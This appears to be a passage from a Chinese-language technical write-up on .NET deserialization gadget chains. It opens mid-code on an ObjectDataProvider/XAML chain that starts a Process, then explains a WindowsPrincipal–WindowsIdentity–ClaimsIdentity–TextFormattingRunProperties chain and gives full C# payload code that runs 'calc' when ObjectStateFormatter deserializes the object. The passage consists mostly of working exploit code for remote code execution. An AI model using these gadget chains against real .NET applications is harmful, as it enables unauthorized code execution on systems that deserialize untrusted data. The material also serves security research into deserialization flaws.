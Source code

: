 ```
            psi.GetType().GetField("environmentVariables", BindingFlags.Instance | BindingFlags.NonPublic).SetValue(psi, dict);
            Process p = new Process();
            p.StartInfo = psi;
            ObjectDataProvider odp = new ObjectDataProvider();
            odp.MethodName = "Start";
            odp.IsInitialLoadEnabled = false;
            odp.ObjectInstance = p;
            _xaml = XamlWriter.Save(odp);
        }
    }
}
```

##### WindowsPrincipal+WindowsIdentity+ClaimsIdentity+TextFormattingRunProperties

**调用的类**：WindowsPrincipal+WindowsIdentity+ClaimsIdentity+TextFormattingRunProperties+ObjectDataProvider

**思路**：WindowsPrincipal类字段m_identity类型为WindowsIdentity，当反序列化时，WindowsIdentity将被调用构造函数，就是上面七年的链子再次使用

payload：

```
class Program
    {
        static void Main(string[] args)
        {
            WindowsIdentity currentWI = WindowsIdentity.GetCurrent();
            currentWI.Actor = new ClaimsIdentity();
            currentWI.Actor.BootstrapContext = new TextFormattingRunPropertiesMarshal("calc");
            WindowsPrincipalMarshal obj = new WindowsPrincipalMarshal();
            obj.wi = currentWI;
            string v = new ObjectStateFormatter().Serialize(obj);
            new ObjectStateFormatter().Deserialize(v);
        }


    }
    [Serializable]
    public class WindowsPrincipalMarshal : ISerializable
    {
        public WindowsPrincipalMarshal() { }
        public WindowsIdentity wi { get; set; }
        public void GetObjectData(SerializationInfo info, StreamingContext context)
        {
            info.SetType(typeof(WindowsPrincipal));
            info.AddValue("m_identity", wi);
        }
    }
```
